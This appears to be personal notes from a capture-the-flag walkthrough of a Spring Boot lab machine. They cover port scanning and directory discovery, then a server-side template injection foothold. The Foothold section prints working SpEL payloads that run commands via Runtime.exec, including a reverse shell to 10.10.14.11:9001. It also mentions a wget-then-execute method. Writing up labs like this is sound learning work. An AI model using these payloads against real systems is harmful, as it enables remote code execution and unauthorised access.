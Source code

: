 IP:10.10.11.170

# Recon
## Nmap
2 ports
- 22 ssh
- 8080 http
Made with spring boot.

## port 8080
errors when a white space is put in.
No sqli
2 authors
woodenk and damian.
xml file

### Dir bust
- search
- stats
- error

# Foothold
there is an injection with \*{4\*4}
checking hacktricks for POC
```ssti
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())}
```
Spawn a revshell.
```ssti
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('bash -i /dev/tcp/10.10.14.11/9001 0>&1').getInputStream())}
```
This doesn't work.
getting the file with wget the executing it might?
yep it does.